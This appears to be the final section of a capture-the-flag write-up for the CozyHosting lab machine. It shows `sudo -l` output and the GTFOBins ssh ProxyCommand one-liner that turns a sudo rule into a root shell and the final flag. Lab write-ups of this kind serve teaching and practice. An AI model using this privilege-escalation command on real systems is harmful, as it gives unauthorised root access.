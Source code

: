 We can now grab the user.txt flag:

![cozyhosting_user_flag.png](../assets/cozyhosting_assets/cozyhosting_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what josh can run as sudo we see SSH:

```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

This should make for an easy root. Lets head to GTFOBins.com for the command we'll need:

![cozyhosting_gtfobins.png](../assets/cozyhosting_assets/cozyhosting_gtfobins.png)

`sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

Nice that worked, we can now grab the final flag:

![cozyhosting_root_flag.png](../assets/cozyhosting_assets/cozyhosting_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------------
